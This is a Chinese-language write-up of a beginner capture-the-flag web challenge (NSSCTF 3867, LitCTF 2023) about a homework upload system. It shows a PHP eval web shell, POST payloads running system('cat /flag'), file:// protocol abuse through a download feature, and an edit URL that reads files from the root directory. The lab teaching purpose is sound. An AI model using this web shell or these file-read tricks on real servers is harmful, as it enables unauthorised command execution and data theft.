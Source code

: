 ```yaml
---
title: NSSCTF入门题单[LitCTF 2023]WriteUP-NSSCTF-3867
date: 2024-11-25
tags:
 - CTF
 - NSSCTF
 - WriteUP
categories:
 - 随笔 Essay 
isShowComments: true
publish: true








---
```


<Boxx/>

[LitCTF 2023]这套题是Web方向入门题单，这是我的第17题

[[toc]]

- 题单【[传送门](https://www.nssctf.cn/problem/3861)】
- 主办方WriteUP【[传送门](https://dqgom7v7dl.feishu.cn/docx/WdHvd735koqwJxxulA2cv4K4nKf)】
- 主办方WriteUP视频【[传送门](https://www.bilibili.com/video/BV1sm4y187EK)】

| 题目编号 | 题目名称     | 题目方向 | 难度 |
| -------- | ------------ | -------- | ---- |
| 3867     | 作业管理系统 | Web      | 1    |

<!-- more -->

# 题目16： 作业管理系统

### 题目描述：交作业！！但是哪里不对？

### 考点1：文件上传

首先，我们在做Web题的时候，要记得先审查元素看一下源代码，说不定会有惊喜呢？这里提示我们用户名和密码都是admin

![image-20241125202037150](/img/essay/image-20241125202037150.png)

### 解法1：文件上传

进入页面后可以看到很显眼的“文件上传”选项，我们直接点击上传文件

![image-20241125202224025](/img/essay/image-20241125202224025.png)

我们编写一个简单的php木马上传到服务器中。

```php
<?php @eval($_POST[1]); ?>
```

![image-20241125202749149](/img/essay/image-20241125202749149.png)

我们点击上传以后，返回主页，看到目录上方的统计数量变成了“1 个文件夹 2 个文件”，我们知道是我们上传成功了。我们已经可以在浏览器去访问1.php的文件了。

```
http://node4.anna.nssctf.cn:28599/1.php
```

我们进入页面后，打开F12开发者工具，选择HackBar工具，发送一个POST请求，内容为

```php
# 1是我们在木马里起的名字
1=system("ls /");
```

![image-20241125204853534](/img/essay/image-20241125204853534.png)

通过上边的方式，我们可以直接在运行system语句来执行服务器命令，这样，我们就可以直接用cat来展示flag了

```
1=system("cat /flag");
```

![image-20241125205641965](/img/essay/image-20241125205641965.png)

### 解法2：远程下载



我们在打开页面后，除了有上传文件，还有一个下载文件的地方。此题目如果上传有限制的话，就可以使用这个下载的功能，用远程下载去下载木马，然后编辑保存即可。

![image-20241125202224025](/img/essay/image-20241125202224025.png)

**重点：**基于file协议，将根目录文件直接下载到当前目录

**注：**页面访问的是当前目录，也就是	./	这个目录，而flag是在	/	根目录下

![image-20241125210738158](/img/essay/image-20241125210738158.png)

点击下载后，我们选择编辑文件，即可查看该flag。

![image-20241125210826322](/img/essay/image-20241125210826322.png)

也可以在链接后直接加个flag，通过地址栏的方式直接下载flag的文件。

```
http://node4.anna.nssctf.cn:28599/flag
```

下载到本地后打开即可看到flag

### 解法3：直接编辑读取

如果没有使用	**file:///**	这个协议，我们可以在下载文件并编辑的时候，直接修改地址栏的内容

```
http://node4.anna.nssctf.cn:28599/index.php?op=edit&fename=flag&folder=/
```

通过这段地址，我们就可以直接编辑根目录下的flag文件，也就可以直观的展示到页面中了。

### 彩蛋：

在远程下载中，提供了一个预输入，访问该地址，即可得到彩蛋。

![d88d6fca-efe5-4034-ba9e-0c677ad9f5e4](/img/essay/d88d6fca-efe5-4034-ba9e-0c677ad9f5e4.png)

该地址是一个github地址，我们访问这个地址

![f11f99a0-69ed-4aae-9c63-29bd4446c508](/img/essay/f11f99a0-69ed-4aae-9c63-29bd4446c508.png)

### 注：

在做这道题的时候，没注意到时间限制，结果到时间了，大家一定要注意时间呀